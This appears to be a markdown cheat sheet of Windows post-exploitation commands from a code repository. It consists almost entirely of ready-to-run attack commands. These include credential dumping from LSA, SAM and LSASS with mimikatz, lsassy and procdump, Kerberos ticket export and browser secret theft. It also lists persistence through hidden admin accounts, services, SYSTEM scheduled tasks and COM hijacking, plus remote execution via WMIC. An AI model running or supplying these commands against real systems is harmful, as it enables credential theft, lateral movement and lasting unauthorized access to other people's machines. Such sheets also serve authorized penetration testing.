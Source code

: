 # Post-Ex Windows

## **Dump secrets**

### LSA

```bash
crackmapexec smb perim_up.txt -u '<user>' -d '<domain>' -p '<pass>' --lsa
```

### SAM
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --sam

reg save hklm\sam .\sam reg save hklm\system .\system reg save hklm\security .\security 
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL

```
### LSASS 
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> -M lsassy

lsassy -d '.' -u 'Administrateur' -H '<hash>' <ip>
lsassy -d <domain> -u <user> -p <pass> <ip>

./spraykatz.py -u <user> -p <password> -t <ip>

pypykatz lsa minidump lsass.dmp

procdump.exe --accepteula -ma lsass c:\WINDOWS\Temp\lsass.txt

.\mimikatz.exe "log" "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Kerberos 

```bash
.\mimikatz.exe "log" "privilege::debug" "kerberos::list /export" exit

```

### Browser secrets

```bash
sharpchrome.exe
```

## Create/add new local admin account 

```bash
net user add <user> <pass>
net localgroup "Administrators" <user> /add
```

## Enable WinRM

```bash
Enable-PSRemoting -SkipNetworkProfileCheck -Force
```

## Enable RDP

```bash
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

add user to RDP group

```bash
net localgroup "Remote Desktop Users" <user> /add
```

## Create service

```bash
New-Service -BinaryPathName C:\Users\sqlServer\Documents\system2.exe -Name syshell -DisplayName syshell -StartupType Automatic 
Start-Service syshell
```
or 

```
sc \192.168.1.2 create <ServiceName> binpath= C:\windows\system32\calc.exe
```
> \192.168.1.2 is optional


To check if service working well, you can reboot like this: 

`wmic /node:192.168.1.2 os get buildnumber` then 

`wmic /node:192.168.1.2 os where buildnumber="<Number>" call reboot` 


## Execute binary using WMIC

```
wmic /node:192.168.1.2 process call creat “C:\windows\system32\calc.exe”
```
>/node is optional


## Stop processus

Run this to get processid : `sc \192.168.1.1 query <Service Name>` 

then : `wmic /node:192.168.1.2 process where processid=<ID> call terminate` 
>/node is optional

also you can do this `tasklist /PID <Service Name>`

and then `taskkill /S 192.1.12.2 /PID XXX`
>/S is optional


## Create Scheduled tasks

```
schtasks /create /S 192.156.1.2 /tn <name> /sc once /sd 01/01/1910 /ru system /tr “C:\windows\system32\calc.exe”
```
> ru <user>, and /S is optional
> To check if tasks has been created run this `schtasks /s 192.156.1.2 /query /tn <name>`



## COM hijack

```bash
schtasks /query /xml > tasks.xml
reg query "HKCR\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKCU\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKLM\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"
reg export "HKLM\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32" export.reg

# Change to HKCU and change dll
reg import export.reg /reg:64
reg query "HKCR\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKCU\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"

```

## Disconnect User 

`rwinsta /server:192.168.1.2 <sessionId>`
>to get sessionId please run this `qwinsta` 


`wmic /node:192.168.1.2 os get buildnumber`

